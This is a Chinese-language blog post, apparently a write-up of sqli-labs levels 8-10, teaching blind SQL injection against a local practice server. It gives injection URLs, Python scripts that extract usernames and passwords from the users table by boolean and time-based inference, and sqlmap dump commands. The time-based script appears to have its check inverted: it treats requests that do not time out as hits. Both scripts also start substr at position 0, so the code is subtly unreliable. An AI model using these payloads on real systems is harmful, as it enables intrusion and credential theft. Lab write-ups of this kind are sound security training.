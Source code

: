 ```yaml
---
 title: Sqlilabs通关笔记(8-10)盲注
 date: 2020-01-04 17:20:00
 tags: SQL注入
 categories:
---
```


## 第八关 基于GET单引号布尔型盲注

![2020-1-4-22-51-4-Sqlilabs通关笔记(8-10)盲注](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-4-22-51-4-Sqlilabs%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0(8-10)%E7%9B%B2%E6%B3%A8)

<!--more-->
### 存在注入点判断
1. 通过反斜杠可知，错误和正常页面有区别
2. 可以构造payload来进行判断布尔值，从而确定要查询的结果
    > http://127.0.0.1/sqlilabs2/Less-8/index.php?id=1' and 's'=left(database(),1)--+ 页面正常 说明第一个字母为s
    > http://127.0.0.1/sqlilabs2/Less-8/index.php?id=1' and 'se'=left(database(),2)--+ 页面正常 第二个字母e
    ...................
    以此类推可以将数据结果得出

3. 利用二分法构造payload
    - 常用构造函数
        * ascii() 函数，返回字符ascii码值 
            - 参数 : str单字符

        * length() 函数，返回字符串的长度 
            - 参数 : str 字符串

        * left() 函数，返回从左至右截取固定长度的字符串
            - 参数str,length
            - str : 字符串
            - length：截取长度

        * substr()/substring() 函数 ， 返回从pos位置开始到length长度的子字符串
            - 参数，str，pos，length
            - str: 字符串
            - pos：开始位置
            - length： 截取长度

        * if函数，判断条件并作出不同行动
            - 参数，条件，成立，不成立
    
    - 实例构造
        > SELECT * from users WHERE id = 1 and (length(database())=8)
        > SELECT * from users WHERE id = 1 and ascii(substr(database(),8,1))
        > SELECT * from users WHERE id = 1 and 's'=left(database(),1)
        > SELECT * from users WHERE id = 1 and if((length(database())=8),1,0)
    
    - 脚本编写
    ```python
    import string
    import requests
    from time import sleep

    arlist = string.printable

    Baseurl = "http://127.0.0.1/sqlilabs2/Less-8/index.php?id=1\' and "


    def checkurl(url):
        res = requests.get(url)
        if res.ok:
            if 'You are in' in res.text:
                return True
        return False

    def main():
        flag  = ''
        for g in range(100):
            for i in arlist:
                payload = "substr((select group_concat(username,password) from users),%s,1) = \'%s\'--+" % (
                    g, i)
                finalurl = Baseurl + payload
                if checkurl(finalurl):
                    flag = flag + str(i)
                    print(flag)
                sleep(0.2)

    if  __name__ == "__main__":
        main()
    ```

### SQLMAP注入

直接上**payload**

> sqlmap -u "http://127.0.0.1/sqlilabs2/Less-8/index.php?id=1" --technique B -D security -T users -C username,password --dump --threads 10 --batch

## 第九关 基于GET单引号基于时间盲注

![2020-1-5-0-12-16-Sqlilabs通关笔记(8-10)盲注](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-5-0-12-16-Sqlilabs%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0(8-10)%E7%9B%B2%E6%B3%A8)

### 存在注入点判断
1. 加上反斜杠发现页面并无变化
2. 猜测不管语法对错页面都没有变化
3. 尝试使用sleep看是否执行
4. 布尔盲注和时间盲注的最直观区别就是一个可以通过页面区别来判断对错，一个则无法判断对错，只能通过执行的时间来区别对错
5. 查看源码验证布尔盲注和时间盲注
布尔源码如下：
```
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo '<font size="5" color="#FFFF00">';	
  	echo 'You are in...........';
  	echo "<br>";
    	echo "</font>";
  	}
	else 
	{
	
	echo '<font size="5" color="#FFFF00">';
	//echo 'You are in...........';
	//print_r(mysql_error());
	//echo "You have an error in your SQL syntax";
	echo "</br></font>";	
	echo '<font color= "#0000ff" font size= 3>';	
	
	}
}
	else { echo "Please input the ID as parameter with numeric value";}

?>
```
时间盲注源码如下
```
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo '<font size="5" color="#FFFF00">';	
  	echo 'You are in...........';
  	echo "<br>";
    	echo "</font>";
  	}
	else 
	{
	
	echo '<font size="5" color="#FFFF00">';
	echo 'You are in...........';
	//print_r(mysql_error());
	//echo "You have an error in your SQL syntax";
	echo "</br></font>";	
	echo '<font color= "#0000ff" font size= 3>';	
	
	}
}
	else { echo "Please input the ID as parameter with numeric value";}
```
6. 布尔注释掉了输出错误信息，而时间盲注不管对错页面都是You are in..

7. 尝试构造payload
    >  http://127.0.0.1/sqlilabs2/Less-9/index.php?id=1' and if((length(database())=8),sleep(5),1)--+

8. 脚本编写
    ```python
    import string
    import requests
    from time import sleep

    arlist = string.printable

    Baseurl = "http://127.0.0.1/sqlilabs2/Less-9/index.php?id=1\' and "


    def checkurl(url):
        try:
            res = requests.get(url,timeout = 3)
            return True
        except Exception as e:
            return False

    def main():
        flag  = ''
        for g in range(100):
            for i in arlist:
                payload = "if((substr((select group_concat(username,password) from users),%s,1) = \'%s\'),sleep(5),1)--+" % (
                    g, i)
                finalurl = Baseurl + payload
                if checkurl(finalurl):
                    flag = flag + str(i)
                    print(flag)
                sleep(0.2)

    if  __name__ == "__main__":
        main()
    ```

## 第十关 基于GET双引号基于时间盲注

### 存在注入点判断

* 和第九关类似，只不过需要用双引号闭合

payload:

> http://127.0.0.1/sqlilabs2/Less-10/index.php?id=1" and if((length(database())=8),sleep(5),1)--+

### SQLMAP注入

**直接上payload（9-10通用）**

> sqlmap -u "http://127.0.0.1/sqlilabs2/Less-9/index.php?id=1" --technique T -D security -T users -C username,password --dump --threads 10 --batch
